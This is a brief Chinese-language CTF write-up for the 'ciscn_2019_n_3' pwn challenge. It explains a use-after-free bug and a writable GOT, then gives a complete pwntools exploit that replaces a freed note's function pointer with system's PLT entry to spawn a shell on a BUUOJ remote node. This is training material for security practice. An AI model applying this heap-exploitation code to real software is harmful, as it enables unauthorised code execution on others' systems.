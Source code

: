 

## ciscn_2019_n_3

delete的时候指针没有置0，UAF，将题中free函数改为system的plt即可

got表可写

```python
from pwn import *
context.log_level = 'debug'

#p = process('./ciscn_2019_n_3')
p = remote('node4.buuoj.cn', 28073)
elf = ELF('./ciscn_2019_n_3')

sys_plt = elf.plt['system']

def add(index, Type, size, value):
	p.recvuntil('CNote > ')
	p.sendline('1')
	p.recvuntil('Index > ')
	p.sendline(str(index))
	p.recvuntil('Type > ')
	p.sendline(str(Type))
	if Type == 2:
		p.recvuntil('Length > ')
		p.sendline(str(size))
	p.recvuntil('Value > ')
	p.sendline(str(value))
	
def dele(index):
	p.recvuntil('CNote > ')
	p.sendline('2')
	p.recvuntil('Index > ')
	p.sendline(str(index))

def show(index):
	p.recvuntil('CNote > ')
	p.sendline('3')
	p.recvuntil('Index > ')
	p.sendline(str(index))

add(0, 2, 20, 'teapot')
pause()
add(1, 1, 1, 10)
dele(0)
dele(1)
add(2, 2, 0xc, 'sh\x00\x00' + p32(sys_plt))
dele(0)
p.interactive()
```
